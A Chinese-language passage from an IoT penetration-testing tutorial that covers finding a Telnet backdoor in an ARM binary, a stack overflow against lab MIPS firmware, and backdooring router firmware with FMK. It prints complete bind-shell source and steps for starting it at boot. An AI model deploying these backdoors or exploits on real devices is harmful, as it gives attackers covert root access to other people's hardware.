

在字符串中查找 telnet 实例

3.  要确定从何处调用它，我们可以右键单击字符串并选择 ReferencestoAddress，这将向我们显示从何处调用它的位置和说明。在这种情况下，如果我们引用地址，我们会发现它是从`0x13048`调用的，如下面的屏幕截图所示：



4.  双击地址会将我们带到提到的地址，在本例中为`0x13048`。到达地址后，我们可以看到整个反汇编过程，并通过单击 pseudo code mode 按钮生成伪代码。这也显示在以下屏幕截图中：


从反汇编中访问伪代码

5.  伪代码功能对我们来说非常有用，因为它让我们将反汇编视为一个逻辑程序，如果我们对反汇编不是非常熟悉的话，它对我们来说更有意义。在本例中，以下是伪代码的内容：



正如我们从前面的屏幕截图中看到的，它对字符串`HELODBG`执行`strncmp`。您可能已经知道，`strncmp`用于字符串比较，在本例中，它检查二进制文件启动 Telnet 所需的字符串，从突出显示的框中可以明显看出。

因此，我们可以自信地说 appmgr 后门查找字符串`HELODBG`，一旦收到该字符串，它就会启动带有`bin/sh`外壳的 Telnet。

这就是我们如何对 ARM 二进制文件执行非常基本的分析的方法，该二进制文件可用于查找敏感信息或漏洞以及后门。

# 还有更多。。。

既然您已经了解了如何对 ARM 二进制文件执行基本分析，我们还建议您阅读更多有关 ARM 组装及其体系结构的信息。对汇编指令和底层体系结构的了解和理解将帮助您更好地理解反汇编，即使在伪代码没有帮助的情况下也是如此。

# 利用 MIPS

现在，我们已经掌握了如何对二进制文件进行反向工程的基本信息，是时候深入了解物联网设备主要基于的平台的体系结构了。为了获得基本的理解，我们现在只关注 MIPS，但强烈建议您使用相同的概念，并在基于 ARM 的体系结构上执行利用。

# 准备

要执行 MIPS 利用，我们将主要使用 QEMU 和 chroot 技术来实现，这在本章前面已经介绍过。我们将研究如何在 MIPS 二进制文件上执行缓冲区溢出攻击，并将程序执行流破坏为我们希望的状态，而不是二进制文件应该执行的状态。我们现在不讨论像**面向返回的编程**（**ROP**）这样的概念，保持简单。

# 怎么做。。。

对于本练习，我们需要并使用以下工具和实用程序：

*   **该死的易受攻击路由器固件**（**DVRF**）-可从 GitHub URL 下载
*   GDB 连拱
*   **GDB 增强功能**（**GEF**）
*   QEMU
*   改变根目录
*   IDA Pro/Radare2（可选）

让我们逐一检查它们，看看如何设置它们。让我们继续从以下 URL 下载 DVRF 固件：[https://github.com/praetorian-inc/DVRF/tree/master/Firmware](https://github.com/praetorian-inc/DVRF/tree/master/Firmware) 。

DVRF 是由*b1ack0wl*编写的固件，该固件用于基于 MIPS 的平台。即使固件是针对 Linksys E1550 的，也可以使用 QEMU 在模拟环境中运行，其中还包括执行以下攻击：

1.  现在我们已经有了固件，让我们继续安装 GDB（GNU Debugger）和 GEF，以便在攻击期间进行调试：

```
sudo apt install gdb-multiarch 
# Installing GEF 
sudo pip3 install capstone unicorn keystone-engine
wget -q -O- https://github.com/hugsy/gef/raw/master/gef.sh | sh  
```

还要确保系统上安装了所需的 QEMU 软件包。现在我们已经准备好了所有东西，让我们继续使用二进制仿真来运行一个二进制文件，利用 QEMU 的功能。

2.  为此，我们需要首先使用 Binwalk 从固件中提取文件系统，如以下屏幕截图所示：


3.  一旦我们提取了文件系统，我们就可以在根文件夹中为相应的体系结构复制 QEMU 二进制文件，在本例中为`squashfs-root`，如下所示。但在此之前，让我们确认我们的目标二进制文件是用于 MIPS 体系结构的二进制文件：

```
>> readelf -h pwnable/Intro/stack_bof_01
ELF Header:
Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00
Class:                             ELF32
Data:                              2's complement, little endian
Version:                           1 (current)
OS/ABI:                            UNIX - System V
ABI Version:                       0
Type:                              EXEC (Executable file)
Machine:                           MIPS R3000
Version:                           0x1
Entry point address:               0x400630
Start of program headers:          52 (bytes into file)
Start of section headers:          3900 (bytes into file)
Flags:                             0x50001007, noreorder, pic,       
cpic, o32, mips32
Size of this header:               52 (bytes)
Size of program headers:           32 (bytes)
Number of program headers:         6
Size of section headers:           40 (bytes)
Number of section headers:         29
Section header string table index: 26
```

4.  从前面的屏幕截图可以看出，我们的二进制文件是用于 MIPS 体系结构 Little Endian 格式的。


5.  现在，让我们继续将用于 MIPS Little Endian（mipsel）的 QEMU 二进制文件复制到当前的 squashfs 根文件夹：

```
cp $(which qemu-mipsel-static) .

```

6.  一旦我们将`qemu-mipsel-static`复制到当前目录，我们就可以使用 change root（`chroot`实用程序和 QEMU 来模拟二进制文件并运行它，同时让二进制文件相信它的根文件夹就是我们运行命令的当前文件夹。这可以使用以下命令完成：

```
Sudo chroot . ./qemu-mipsel-static pwnable/Intro/stack_bof1  
```

7.  正如您从下面的屏幕截图中看到的，我们能够运行二进制文件，尽管它最初是用于另一种架构的。这可以通过 QEMU 的仿真功能和`chroot`的变更根功能实现：



8.  正如我们可以从命令的输出（如前面的屏幕截图所示）中看到的，这个二进制文件期望运行参数。此外，如果我们查看二进制文件的源代码，就会发现该二进制文件容易受到基于堆栈的缓冲区溢出漏洞的攻击。以下是`stack_bof1`二进制文件的源代码：



正如您从前面的屏幕截图中看到的，`buf`缓冲区容易受到缓冲区溢出的攻击，我们的目标是修改程序流，将其指向`dat_shell`的地址，以便利用此漏洞获得一个外壳。

9.  让我们用 QEMU 和 chroot 运行这个程序，并附加一个标记`-g`，它将把 GDB 附加到进程，如下所示：

```
sudo chroot . ./qemu-mipsel-static -g 1234 ./pwnable/Intro/stack_bof1
```

10.  从以下屏幕截图中可以看到，程序执行已暂停，现在正在等待调试器连接：



11.  现在执行已经暂停，我们可以启动 GDB 并将目标和刚才分配的端口一起设置为 remote。此外，我们必须将架构设置为 MIPS，以便在需要时能够正确地反汇编二进制文件：


12.  一旦我们连接了目标，您会发现进程已经暂停，可以通过输入`c`继续继续来恢复。

13.  我们还可以通过执行如下的`info functions`来查看二进制文件中可用函数的列表，并从我们的笔测试角度确定可能感兴趣的函数：


14.  让我们继续分解`main`函数，看看它的外观。为此，我们可以简单地做一个`disass main`。

15.  从下面的截图中我们可以看到，`main`功能的反汇编：



如果您熟悉其中一些说明，您会发现这些说明很有用。反汇编的格式为地址、指令和操作数。

MIPS 共有 32 个通用寄存器，包括`$zero`、`$at`、`$v0-$v1`、`c`、`$t0-$t9`、`$s0-$s7`、`$k0`、`$k1`、`$gp`、`$ra`、`$fp`和`$ra`。其中，`$a0-$a3`用于存储函数的参数，`$t0-$t9`用于临时数据存储，`$gp`是全局区域指针（我们在利用过程中尽量不修改 GP），`$sp`是堆栈指针，`$fp`是帧指针，`$ra`是返回地址。还有一个额外的专用寄存器称为**程序计数器**（**PC**），它存储下一条指令的内存地址，该指令是当前正在执行的指令之后的指令。

为了控制基于 MIPS 的二进制程序执行流，我们只关注两个寄存器——RA 和 PC。正如您在处理基于 MIPS 的二进制程序时所认识到的，与 RA 相比，控制 PC 通常更为困难。因此，在本次演习中，我们将重点控制 RA。

16.  因为我们知道当前正在使用的二进制文件`socket_bof`容易受到基于堆栈的缓冲区溢出的攻击，所以让我们使用一个非常大的参数来运行它。要生成参数，我们将使用 GEF 的模式创建功能，如以下屏幕截图所示：


17.  一旦我们生成了模式，我们就可以使用前面生成的参数运行`stack_bof_01`，看看是否能够溢出 RA。以下屏幕截图显示使用 GEF 生成的自定义 300 字符长参数运行程序：


18.  正如预期的那样，二进制执行状态被暂停，由于`-g`标志，它正在等待调试器附加到它。现在打开 GEF 终端窗口，输入`target`，如以下命令和屏幕截图所示：

```
target remote 127.0.0.1:1234  
```



19.  设置了`target`后，您可以点击`c`，该按钮将继续程序，直到程序完成或到达断点或异常。正如我们在下面的屏幕截图中看到的，程序出现了一个`SIGSEGV`故障：



GEF 还向我们展示了捕获异常时堆栈和寄存器的整个状态。在我们的例子中，我们可以看到 RA 被`0x63616162`覆盖，它只是`baac`的十六进制。

现在我们有了上述信息，让我们使用模式搜索功能来查找覆盖 RA 的字节的偏移量。有了它，我们将能够找到我们应该将恶意地址放在哪里，并控制程序执行流。

20.  要做到这一点，我们可以使用命令`pattern search RA-overflown-bytes-in-hex`，如下面的屏幕截图所示：


从前面的屏幕截图可以看出，我们能够找到溢出寄存器 RA 的字符偏移量，在本例中为`204`。这意味着我们需要`204`字节的垃圾来填充 RA 之前的所有内容，接下来的`4`字节将是 RA 被覆盖的值。

21.  如果您还记得我们本次练习的目标是修改程序执行流并调用`dat_shell`函数，该函数在程序的正常流中不会被调用。为了找到`dat_shell`的地址，我们可以打印`dat_shell`或者分解并查看起始地址。这可以通过使用如下屏幕截图所示的命令`disass function-name`来完成：


正如我们从前面的屏幕截图中看到的，`dat_shell`函数从`0x00400950`地址开始。但是，前三条指令使用的是**全局指针**（**GP**），我们现在不想使用它。这就是我们将跳转到`0x0040095c`而不是`0x00400950`的原因。

22.  那么，让我们继续运行二进制文件，其中包含`204`个垃圾字符，后跟地址`0x0040095c`。这一次，我们也移除了`-g`标志，并直接运行它，如下所示：

```
sudo chroot . ./qemu-mipsel-static ./pwnable/Intro/stack_bof_01 "$(python -c "print 'A'*204 +  '\x5c\x09\x40'")"  
```


正如我们从前面的屏幕截图中看到的，二进制文件现在已经按照我们的要求执行了`dat_shell`函数。这就是我们在基于 MIPS 的平台上执行基于堆栈的缓冲区溢出的方式。

# 它是如何工作的。。。

缓冲区溢出的整个基本概念是能够在缓冲区中放入比预期输入更多的字符，并以这种方式控制堆栈上可能存在的寄存器。这也可用于跳转到外壳代码的位置或系统的`libc`库并执行额外的有效载荷。

# 还有更多。。。

尽管我们可以在这种易受攻击的二进制文件中执行攻击，但通常在现实情况下，您会遇到更复杂的场景。其中一个事实是，要跳转到的有趣函数不会位于二进制文件中，您必须跳转到系统以执行`bin/sh`或创建 ROP 链以执行外壳代码。

# 带固件模块套件（FMK）的后门固件

在攻击过程中经常有用的技术之一是修改固件的能力。这可以通过从固件中提取文件系统、修改内容，然后将其重新打包到新固件中来实现。然后可以将此新固件闪存到设备。

# 准备

为了修改固件，我们将使用由*Jeremy Collake*和*Craig Heffner*编写的名为 FMK 的工具。FMK 利用 Binwalk 和其他工具从固件中提取文件系统，还使我们能够将修改后的文件系统重新打包为新的固件二进制文件。

FMK 可从[下载 https://github.com/brianpow/firmware-mod-kit/](https://github.com/brianpow/firmware-mod-kit/) 或者，如果您早些时候克隆了 FAT 工具，它可能已经存在于您的系统中。一旦你下载了它，我们需要固件，我们可以尝试它。为了使事情保持简单，使每一个阅读本书的人都可以复制以下步骤，而无需投资购买硬件，我们将使用固件，可以很好地使用 FAT 进行模拟。

# 怎么做。。。

以下是步骤：

1.  我们将在本例中使用的固件是 D-Link（DIR-300 路由器）的固件。为了从固件中提取文件系统，我们将使用位于 FMK 目录中的`extract-firmware.sh`脚本，而不是使用 Binwalk，如下所示：

```
./extract-firmware.sh Dlink_firmware.bin  
```


一旦我们提取了固件，它将为我们包含一个新的目录，包括文件夹`rootfs`、`image_parts`和`logs`。对于我们的大多数后门和固件修改目的，我们将只关注`rootfs`文件夹。

`rootfs`文件夹包含固件的整个文件系统。我们需要做的就是为固件的体系结构创建一个后门，然后找到一种在固件启动后自动调用它的方法。

2.  让我们首先了解固件适用于哪个体系结构。我们可以通过对任何固件二进制文件（如 BusyBox）执行`readelf`来发现这一点，如以下屏幕截图所示：



3.  从前面的屏幕截图可以看出，它是一个基于 MIPS 的 Little Endian 架构。这意味着我们需要为 MIPS Little Endian 格式创建和编译一个后门。以下是我们将要使用的后门，最初由*Osanda Malith*撰写：

```
#include <stdio.h> 
#include <stdlib.h> 
#include <string.h> 
#include <sys/types.h> 
#include <sys/socket.h> 
#include <netinet/in.h> 

#define SERVER_PORT  9999 
 /* CC-BY: Osanda Malith Jayathissa (@OsandaMalith) 
  * Bind Shell using Fork for my TP-Link mr3020 router running busybox 
  * Arch : MIPS 
  * mips-linux-gnu-gcc mybindshell.c -o mybindshell -static -EB -march=24kc 
  */ 
int main() { 
   int serverfd, clientfd, server_pid, i = 0; 
   char *banner = "[~] Welcome to @OsandaMalith's Bind Shell\n"; 
   char *args[] = { "/bin/busybox", "sh", (char *) 0 }; 
   struct sockaddr_in server, client; 
   socklen_t len; 

   server.sin_family = AF_INET; 
   server.sin_port = htons(SERVER_PORT); 
   server.sin_addr.s_addr = INADDR_ANY; 

   serverfd = socket(AF_INET, SOCK_STREAM, 0); 
   bind(serverfd, (struct sockaddr *)&server, sizeof(server)); 
   listen(serverfd, 1); 

    while (1) { 
         len = sizeof(struct sockaddr); 
         clientfd = accept(serverfd, (struct sockaddr *)&client, &len); 
        server_pid = fork(); 
        if (server_pid) { 
         write(clientfd, banner,  strlen(banner)); 
           for(; i <3 /*u*/; i++) dup2(clientfd, i); 
           execve("/bin/busybox", args, (char *) 0); 
           close(clientfd); 
         } close(clientfd); 
    } return 0; 
} 
```

一旦我们有了代码，我们就可以使用 Buildroot for MIPSEL 并使用使用 Buildroot 构建的交叉编译器编译它。我们将不讨论建立 Buildroot 的过程，因为这个过程非常简单，并且已经在文档中进行了记录。

4.  一旦我们为 MIPSEL 创建了交叉编译器，我们就可以将`bindshell.c`编译成`bindshell`二进制文件，然后将其放入固件的提取文件系统中：

```
./mipsel-buildroot-linux-uclibc-gcc bindshell.c -static -o bindshell  
```

下一步是寻找可以在文件系统中放置此二进制文件的位置，以及如何在启动期间自动启动。这可以通过查看在启动过程中自动调用的脚本之一来完成。

5.  查看文件系统后，我们可以在`etc/templates/`中添加二进制文件，并可以从位于`/etc/scripts/`的名为`system.sh`的脚本中引用它，如下面的屏幕截图所示：


6.  现在，让我们继续使用`build-firmware.sh`脚本基于此修改构建新固件，如以下屏幕截图所示：


一旦完成构建过程，它将创建新固件并将其作为名为`new-firmware.bin`的文件放置在位置`firmware-name/`。

7.  一旦我们有了新的固件映像，我们就可以将这个固件复制到我们的 FAT 目录并进行仿真，以验证我们添加的后门是否正常工作。这可以使用我们前面用于仿真的相同步骤来完成。这也显示在以下屏幕截图中：


从前面的屏幕截图可以看出，它给了我们一个`192.168.0.1`的 IP 地址，我们现在可以尝试访问该地址。但更有趣的是，让我们看看我们放在固件中的后门 bindshell 是否处于活动状态。

8.  让我们试着在前面的 IP 上运行一个 Netcat 到端口`9999`，看看它是否工作：


现在我们在设备上有了一个完整的根 shell，因为我们修改了一个后门并将其放入固件中。从这里，我们可以修改其他设备配置，或者简单地使用它远程访问运行我们修改的恶意固件的任何设备。

# 它是如何工作的。。。

修改固件的功能非常强大，对攻击者非常有用。这使攻击者能够绕过保护机制，删除安全功能，并执行更多操作。由于诸如 FMK 之类的工具，攻击者极易将自己的恶意软件或后门添加到任何物联网设备固件中，然后世界任何地方的用户都可以使用这些固件。

这也是固件签名和校验和验证对于防止恶意或修改固件引起的攻击极其重要的原因之一。